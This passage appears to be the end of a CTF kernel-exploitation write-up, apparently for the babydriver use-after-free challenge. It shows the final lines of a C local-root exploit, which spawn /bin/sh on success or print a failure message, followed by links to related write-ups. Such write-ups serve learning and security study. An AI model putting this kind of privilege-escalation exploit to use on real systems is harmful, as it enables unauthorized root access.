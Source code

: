 > >          system("/bin/sh");
> >          return 0;
> >      }
> >      else
> >      {
> >          printf("\033[31m\033[1m[x] Unable to get the root, exploit failed.\033[0m\n");
> >          return -1;
> >      }
> >  }
> >  else // the parent thread
> >  {
> >      wait(NULL);//waiting for the child
> >  }
> > 
> >  return 0;
> > }
> > ```



## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x04-Kernel-Heap-Use-After-Free

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
